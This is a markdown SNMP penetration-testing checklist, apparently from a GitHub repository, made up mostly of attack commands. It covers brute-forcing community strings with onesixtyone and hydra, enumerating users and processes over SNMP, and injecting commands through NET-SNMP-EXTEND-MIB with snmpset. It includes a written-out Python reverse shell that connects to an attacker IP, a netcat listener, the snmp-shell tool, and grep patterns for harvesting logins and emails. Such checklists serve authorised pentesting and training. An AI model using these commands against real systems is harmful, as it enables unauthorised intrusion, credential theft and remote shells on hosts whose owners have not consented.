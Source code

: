 # SNMP Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating SNMP (ports 161/udp, 162/udp, 10161/udp, 10162/udp), I realistically expect to find:

- [ ] Misconfigured public/private community strings
- [ ] System info (OS version, hostname, uptime)
- [ ] Network interface details (IPv4, IPv6)
- [ ] User accounts and processes (possible passwords in command lines)
- [ ] Writable access for command injection (RCE)
- [ ] Private community strings for configuration changes
- [ ] Trap data revealing sensitive info
- [ ] ACL bypass opportunities via spoofed IP

---

## ✅ SNMP Pentest Checklist

- [ ] **Check for Open SNMP Ports**
    - Default: 161/udp (queries), 162/udp (traps)
    - Encrypted: 10161/udp, 10162/udp
    ```bash
    nmap -sU -p 161,162,10161,10162 <IP>
    ```

- [ ] **Brute-Force Community Strings**
    - Look for `public`, `private`, common strings.
    ```bash
    onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt <IP>
    hydra -P /usr/share/wordlists/rockyou.txt <IP> snmp
    ```

- [ ] **Install MIB Support for Better Output**
    ```bash
    apt-get install snmp-mibs-downloader
    download-mibs
    ```

- [ ] **Basic Enumeration with snmpwalk**
    - All OIDs:
        ```bash
        snmpwalk -v2c -c public <IP> .1
        ```
    - Extended output:
        ```bash
        snmpwalk -v2c -c public <IP> NET-SNMP-EXTEND-MIB::nsExtendOutputFull
        ```
    - Specific OID (IPv6 addresses):
        ```bash
        snmpwalk -v2c -c public <IP> 1.3.6.1.2.1.4.34.1.3
        ```

- [ ] **Detailed Enumeration with snmp-check**
    ```bash
    snmp-check <IP> -c <COMM_STRING> -p 161
    ```

- [ ] **Nmap SNMP Scripts**
    ```bash
    nmap --script "snmp* and not snmp-brute" -sU -p161 <IP>
    ```

- [ ] **Extract Interesting Data**
    - OS Info:
        ```bash
        snmpwalk -v2c -c public <IP> 1.3.6.1.2.1.1.1.0
        ```
    - Uptime:
        ```bash
        snmpwalk -v2c -c public <IP> 1.3.6.1.2.1.1.3.0
        ```
    - Network Interfaces:
        ```bash
        snmpwalk -v2c -c public <IP> 1.3.6.1.2.1.2.2
        ```
    - Users and Processes:
        ```bash
        snmpwalk -v2c -c public <IP> 1.3.6.1.2.1.25.1.6
        snmpwalk -v2c -c public <IP> 1.3.6.1.2.1.25.4.2.1.2
        ```

---

## ✅ SNMP RCE via NET-SNMP-EXTEND-MIB

⭐ If **RW community** is available, you can **inject commands**:

- [ ] **Inject Custom Command**
    ```bash
    snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c <RW_COMMUNITY> <IP> \
    'nsExtendStatus."evilcmd"' = createAndGo \
    'nsExtendCommand."evilcmd"' = /bin/echo \
    'nsExtendArgs."evilcmd"' = 'hello world'
    ```

- [ ] **Trigger Command Execution**
    ```bash
    snmpwalk -v2c -c <RW_COMMUNITY> <IP> NET-SNMP-EXTEND-MIB::nsExtendObjects
    ```

---

## ✅ SNMP Reverse Shell via Extend

⭐ Exploit **run-on-read** to get a shell.

- [ ] **Inject Reverse Shell**
    ```bash
    snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c <RW_COMMUNITY> <IP> \
    'nsExtendStatus."revsh"' = createAndGo \
    'nsExtendCommand."revsh"' = /usr/bin/python3.6 \
    'nsExtendArgs."revsh"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"<ATTACKER_IP>\",<PORT>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
    ```

- [ ] **Start Netcat Listener**
    ```bash
    nc -lvnp <PORT>
    ```

- [ ] **Trigger the Reverse Shell**
    ```bash
    snmpwalk -v2c -c <RW_COMMUNITY> <IP> NET-SNMP-EXTEND-MIB::nsExtendObjects
    ```

---

## ✅ SNMP-Shell Tool

- [ ] **Clone & Install**
    ```bash
    sudo apt install snmp snmp-mibs-downloader rlwrap -y
    git clone https://github.com/mxrch/snmp-shell
    cd snmp-shell
    sudo python3 -m pip install -r requirements.txt
    ```

- [ ] **Get Interactive SNMP Shell**
    ```bash
    rlwrap python3 snmp-shell.py -t <IP> -c <RW_COMMUNITY>
    ```

---

## ✅ Massive SNMP Enumeration with Braa

- [ ] **Install & Run Braa**
    ```bash
    braa public@192.168.1.125:.1.3.6.*
    ```

- [ ] **Filter Interesting Info**
    - Devices:
        ```bash
        grep ".1.3.6.1.2.1.1.1.0" *.snmp
        ```
    - Trap Data:
        ```bash
        grep -i "trap" *.snmp
        ```
    - Usernames/Passwords:
        ```bash
        grep -i "login\|fail" *.snmp
        ```
    - Emails:
        ```bash
        grep -E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b" *.snmp
        ```

---

## ✅ Examining SNMP Configuration Files

- Look for:
    - `/etc/snmp/snmp.conf`
    - `/etc/snmp/snmpd.conf`
    - `snmp-config.xml`

---

## ✅ Ports to Check

- SNMP Agent: **161/udp**
- SNMP Manager (Traps): **162/udp**
- TLS/DTLS Secure SNMP:
    - **10161/udp** (queries)
    - **10162/udp** (traps)

---

## ✅ References

- HackTricks: [Pentesting SNMP](https://book.hacktricks.xyz/pentesting/pentesting-snmp)
- SNMP-Shell: [https://github.com/mxrch/snmp-shell](https://github.com/mxrch/snmp-shell)
- SNMP RCE Writeup: [https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/](https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/)

---
